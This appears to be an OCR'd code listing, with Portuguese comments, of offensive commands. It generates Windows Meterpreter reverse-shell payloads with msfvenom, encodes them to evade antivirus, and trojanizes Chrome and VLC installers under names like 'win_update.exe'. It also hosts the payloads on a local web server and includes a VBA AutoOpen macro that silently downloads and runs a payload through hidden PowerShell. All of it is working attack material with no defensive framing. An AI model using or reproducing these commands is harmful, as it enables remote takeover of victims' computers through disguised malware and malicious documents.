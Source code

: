 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137/payloads/relatorio_seguranca.exe

http://192.168.1.137:8080/microsoft_update.page.zip

Sub AutoOpen()
    On Error Resume Next
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    ' Comando para baixar e executar o payload
    objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command " & _
                "Invoke-WebRequest -Uri 'http://<SEU_IP>:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe'; " & _
                "Start-Process 'C:\Users\Public\update.exe'", 0, False
    
    Set objShell = Nothing
End Sub



